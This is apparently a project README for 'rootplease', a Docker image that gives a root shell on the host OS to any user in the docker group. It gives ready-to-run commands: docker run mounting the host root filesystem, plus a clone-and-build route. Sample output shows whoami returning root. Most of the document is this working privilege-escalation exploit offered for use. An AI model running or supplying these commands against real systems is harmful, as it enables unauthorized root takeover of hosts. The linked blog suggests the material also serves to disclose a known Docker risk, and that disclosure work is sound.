 Root Please
===========

If you're a member of the 'docker' group on a machine, this command gives you a root shell on the host OS. [See my blog post for details](https://fosterelli.co/privilege-escalation-via-docker.html).

How to Use
----------

Through Docker Hub:

```bash
> docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```
 
Or through Github:

```bash
> git clone https://github.com/chrisfosterelli/dockerrootplease rootplease
> cd rootplease/
> docker build -t rootplease .
> docker run -v /:/hostOS -i -t rootplease
```

And the result:

```bash
johndoe@testmachine:~$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
[...]
You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell
# whoami
root
# 
```
